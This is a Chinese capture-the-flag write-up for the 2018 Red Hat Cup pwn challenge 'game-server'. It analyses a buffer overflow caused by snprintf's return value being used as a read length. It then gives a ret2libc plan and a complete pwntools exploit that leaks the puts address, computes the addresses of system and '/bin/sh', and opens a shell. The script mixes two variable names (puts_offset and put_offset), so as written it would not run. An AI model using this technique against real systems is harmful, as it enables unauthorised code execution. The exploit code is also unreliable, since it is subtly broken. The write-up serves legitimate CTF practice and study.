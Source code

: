 # 2018红帽杯--pwn--game-server

checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

32位程序，只开启nx，很明显就是ret2libc

ida打开

```c++
int sub_8048637()
{
  char s; // [sp+7h] [bp-111h]@5
  char v2; // [sp+107h] [bp-11h]@5
  size_t nbytes; // [sp+108h] [bp-10h]@5
  char *v4; // [sp+10Ch] [bp-Ch]@1

  puts("Welcome to my game server");
  puts("First, you need to tell me you name?");
  fgets(yourname, 0x100, stdin);
  v4 = strrchr(yourname, 10);
  if ( v4 )
    *v4 = 0;
  printf("Hello %s\n", yourname);
  puts("What's you occupation?");
  fgets(youroccupation, 0x100, stdin);
  v4 = strrchr(youroccupation, 10);
  if ( v4 )
    *v4 = 0;
  printf("Well, my noble %s\n", youroccupation);
  nbytes = snprintf(
             &s,
             0x100u,
             "Our %s is a noble %s. He is come from north and well change out would.",
             yourname,
             youroccupation);
  puts("Here is you introduce");
  puts(&s);
  puts("Do you want to edit you introduce by yourself?[Y/N]");
  v2 = getchar();			
  getchar();
  if ( v2 == 89 )
    read(0, &s, nbytes);	//可溢出之处
  return printf("name : %s\noccupation : %s\nintroduce : %s\n", yourname, youroccupation, &s);
}
```

输入名字和职业，然后生成介绍，再问你修不修改介绍

漏洞在snprintf 处

## snprintf

函数会把“our %s is 。。。。”和yourname,yourocc连接起来，第一个%s放yourname，第二个放yourocc，长度初始设为0x100。但实际长度如果超过0x100，最终长度会以实际为准，连接后的字符串放在&s处。返回长度放在nbytes。

## 利用思路

我们把name和occ的长度搞到很大，使得nbytes的值达到可溢出的数，求libc的偏移，得到system和'/bin/sh'的地址，getshell。

### 第一步  求偏移

我们看看栈

```c++
-00000111 s               db ?
-00000110                 db ? ; undefined
-0000010F                 db ? ; undefined
-0000010E                 db ? ; undefined
。。。。。。。。。。。。。。。。。。。。。。。。
-00000012                 db ? ; undefined
-00000011 var_11          db ?
-00000010 nbytes          dd ?
-0000000C var_C           dd ?
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

可见溢出长度应该在0x111+4 = 277

```
payload = 'a' * 277 + sys + fun + binsh
```

我们把name和occ的长度设为250

```
name = 'a' * 250

occ = 'a' * 250
```

因为题目没有给出libc文件，我们可以利用网站https://libc.blukat.me/

先把puts 和 printf的实际地址 利用puts_plt函数读出来，就可以知道offset了

## 第二步 求system和binsh的实际地址

利用公式

```
libc_addr = puts_addr - puts_offset
system_addr = system_offset + libc_addr
binsh_addr = binsh_offset + libc_addr
```

exp:

```
from pwn import *
import sys
r = process("./pwn2")
elf = ELF("./pwn2")
print util.proc.pidof(r)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
puts_offset = 0x5f140
printf_got = elf.got['printf']
function = 0x8048637
system_offset = 0x3a940
name = 'a'*250
occ = 'b'*250
pause()

r.recv()
r.sendline(name)
r.recv()
r.sendline(occ)
r.recv()
r.sendline('Y')
payload = 'a'*(0x111+4) + p32(puts_plt) + p32(function) + p32(puts_got)
r.sendline(payload)
r.recvuntil("\n\n")

put_addr = u32(r.recv(4))

success(hex(put_addr))
libc_addr = put_addr - put_offset
sys_addr = libc_addr + system_offset
binsh_addr = libc_addr + 0x15902b
payload = 'a'*(0x111+4) + p32(sys_addr) + p32(function) + p32(binsh_addr)
r.recv()
r.sendline(name)
r.recv()
r.sendline(occ)
r.recv()
r.sendline('Y')
r.sendline(payload)

r.interactive()



```

